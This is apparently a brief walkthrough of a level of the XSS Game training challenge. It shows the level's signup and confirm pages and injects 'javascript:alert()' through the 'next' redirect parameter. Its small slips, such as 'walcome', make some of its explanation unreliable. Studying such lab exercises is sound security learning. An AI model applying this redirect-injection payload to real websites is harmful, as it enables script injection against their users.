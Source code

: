 # **XSSGame Level 4**

![](https://i.imgur.com/QODKpi6.png)
```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      Welcome! Today we are announcing the much anticipated<br>
      <img src="/static/img/googlereader.png" /><br>
      <a href="signup?next=confirm">Sign up</a> for an exclusive Beta.
    </center>
  </body>
</html>
```

![](https://i.imgur.com/gC0GGeu.png)
```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/level_style.css" />
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body>
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      <!-- We're ignoring the email, but the poor user will never know! -->
      Enter email: <input id="reader-email" name="email" value="">
      <br><br>
      <a href="confirm?next=welcome">Next >></a>
    </center>
  </body>
</html>
```
`<!-- We're ignoring the email, but the poor user will never know! -->`

Well, Okay. ˊ_>ˋ

Here's the key point:

`<a href="confirm?next=welcome">Next >></a>`

![](https://i.imgur.com/E9L3MUf.png)

```
<!DOCTYPE html>
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body style="background-color: white;">
    <center>
      <img src="/static/img/googlereader-logo.png" /><br><br>
      Thanks for signing up, you will be redirected soon...
      <script>
        setTimeout(function() { window.location = 'welcome'; }, 1000);
      </script>
      
    </center>
  </body>
</html>
```

`$_GET['welcome']` will be `walcome` in `setTimeout(function() { window.location = 'welcome'; }, 1000);`

So, `<a href="confirm?next=welcome">Next >></a>` is the inject point.

Let's inject `confirm?next=javascript:alert()` to it.
![](https://i.imgur.com/5e72BZi.png)
